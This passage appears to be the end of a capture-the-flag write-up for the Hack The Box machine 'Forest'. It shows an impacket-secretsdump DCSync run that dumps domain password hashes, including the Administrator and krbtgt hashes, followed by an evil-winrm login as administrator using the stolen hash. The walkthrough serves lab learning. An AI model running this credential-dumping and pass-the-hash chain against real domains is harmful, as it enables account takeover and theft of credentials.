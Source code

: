 ```
impacket-secretsdump svc-alfresco@10.10.10.161
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

[snip...]

[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something wen't wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up... 
```

With Administrator hashes, I logged in with evil-winrm....

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
FOREST
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
```

Thank for reading 
